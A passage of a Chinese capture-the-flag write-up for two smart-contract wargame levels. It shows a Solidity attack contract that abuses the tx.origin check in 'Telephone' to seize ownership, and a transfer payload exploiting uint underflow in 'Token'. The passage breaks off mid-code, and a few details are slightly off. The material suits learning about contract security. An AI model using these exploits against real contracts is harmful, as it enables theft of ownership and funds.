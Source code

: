 #### 4. Telephone  

> **Target**: 将owner变为自己  

&emsp;&emsp;本题主要考察的是只能合约中tx.origin与msg.sender的区别，tx.origin是交易发起人，msg.sender是合约的上层调用地址。因此只需要用新合约包装一下地址就好了。

```javascript 
pragma solidity >=0.4.0 < 0.6.0;
contract Telephone {

    address public owner;

    function Telephone() public {
    owner = msg.sender;
  }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}

contract attack{

    address target = 0x811cb74F2FC520c64f7B44ac90d056c744f0Cf4d;
    Telephone c = Telephone(target);
    
    function hit() public{
            Telephone c = Telephone(target);
            c.changeOwner(msg.sender);
      }
}
```

---

#### 5. Token  

> **Target**: 将owner变为自己  

&emsp;&emsp;这里主要考察uint的无符号整数的下溢,当uint为负数时，根据二进制的无符号表示法，此时数会变成一个极大的数，比如:  

```javascript
uint a = 1;

a = a - 2;           //此时a为ffffffff

```

&emsp;&emsp;这在pwn中十分常见，因此我们可以构造payload，即:  

> contract.transfer(yourAddress,21);

&emsp;&emsp;或者构造攻击合约：  
```javascript
pragma solidity ^0.4.18;

contract Token {

    mapping(address => uint) balances;
    uint public totalSupply;

    function Token(uint _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

```